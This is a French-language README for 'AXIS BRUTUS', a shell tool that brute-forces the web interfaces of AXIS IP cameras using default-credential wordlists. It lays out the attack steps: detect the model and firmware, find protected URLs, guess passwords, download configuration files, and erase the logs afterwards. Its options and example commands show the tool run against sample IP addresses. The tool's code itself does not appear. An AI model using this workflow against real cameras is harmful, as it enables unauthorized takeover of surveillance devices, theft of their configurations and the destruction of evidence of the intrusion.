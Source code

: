 # AXIS BRUTUS 

# A propos:
 - Auteur: CHORFA Alla-eddine
 - Crée le: 25.07.2019
 - Edité le: 02.08.2019
 - Version: 2.3
 - Contact: h4ckr213dz@gmail.com
 - Web: http://dino213dz.free.fr

# Description:
 - La plus fine des brutes!
 - Brute force les interfaces web des cameras IP AXIS
 - Necessite un fichier mdp et un fichier usernames :
	1- ./wordlists/axis_users.txt
	2- ./wordlists/axis_mdp.txt
 - Ces fichiers contiennet les logins et mot-de-passe par defaut des cameras Axis.

# Algorithme:
 - Récuperer le modele de la camera
 - Recuperer le firmware 
 - Recherche d'URL protegée par mot-de-passe 
 - Bruteforce
 - Si mot de passe trouvé:
 - Telecharger les fichiers de configuration
 - Sauvegarde des données
 - Effacer les logs

# Syntaxe:
 - $> ./axisBrutus.sh -c IP:PORT [OPTIONS] 

# Parametres obligatoires:
 - --cible, -c : IP, IP:PORT, URL

# Parametres optionnels:
 - --skip, -s : N'effectue pas la detection du modele. L'url cible sera "/operator/basic.shtml" qui est la plus probable. L'argument --url peut etre utilisé pour changer l'url cible.
 - --list, -l : liste les modeles de camera compatibles
 - --help, -h : affiche l'aide
 - --no-geo, --nogeo, -g : Désactive la géolocalisation de l'IP
 - --check, --chk : Vérifie uniquement la compatibilité d'un modele sans procéder à l'attaque
 - --log, --logs : Définit l'emplacement du fichier logs des operations d'attaque. La valeur  par défaut est : ./axisBrutus.log
 - --passwords, -p : fichier wordlist contenant la liste des mots-de-passe
 - --usernames, -u: fichier wordlist contenant la liste des noms d'utilisateurs
 - --export, --output, -o : fichier dans lequel le mot-de-passe sera enregistré s'il est trouvé. Aucun fichier créé si le mot-de-passe n'est pas trouvé
 - --url, -r : L'url dépend du modele. Vous pouvez le modifier si vous souhaitez tester une page web bien précise (cas d'un modele inconnu par exemple)
 - --verbose, -v : permet d'afficher plus ou moins d'infos à l'écran. Si verbeux alors : Garde à l'ecran les combinaisons testées & affiche le contenu du fichers téléchargés
 - --timeout, -t : definit le temps de reponse limite dans curl
 - --maxtime, -m : Définit le temps limite d'une requete curl
 - --ping-timeout : definit le timeout du test de conenctivité (ping)

# Exemples:
 - Attaque standard par ip ou par url. les wordlist utilisés ici sont ceux par defaut. (Voir "Description")
	 - $> ./axisBrutus.sh --cible 192.23.36.254:83 
	 - $> ./axisBrutus.sh --cible http://192.23.36.254:83
	 - $> ./axisBrutus.sh --cible https://maCameraIp213dz.axis.com/

 - Afficher la liste des modèles compatibles
	 - $> ./axisBrutus.sh --cible 192.23.36.254:83 --list

 - Pas de geolocalisation
	 - $> ./axisBrutus.sh --cible 192.23.36.254:83 --no-geo

 - Pas de detection du modele. on définit le TARGETURI manuellement.
	 - $> ./axisBrutus.sh --cible 192.23.36.254:83 --skip --url /admin/admin.shtml

 - Definir une liste de login mot-de-passe 
	 - $> ./axisBrutus.sh --cible 192.23.36.254:83 --passwords ./axis_pass.txt --usernames ./axis_usernames.txt 

 - Definir le fichier de sauvegarde:
	 - $> ./axisBrutus.sh --cible 192.23.36.254:83 --export mdp_axis_test.txt --verbose 

 - Fichier logs d'attaque:
	 - $> ./axisBrutus.sh --cible 192.23.36.254:83 --log ./test.log 

 - Mode verbeux :
	 - $> ./axisBrutus.sh --cible 192.23.36.254:83 --verbose 

 - Parametrage curl:
	 - $> ./axisBrutus.sh --cible 192.23.36.254:83 --maxtime 10 --timeout 4 


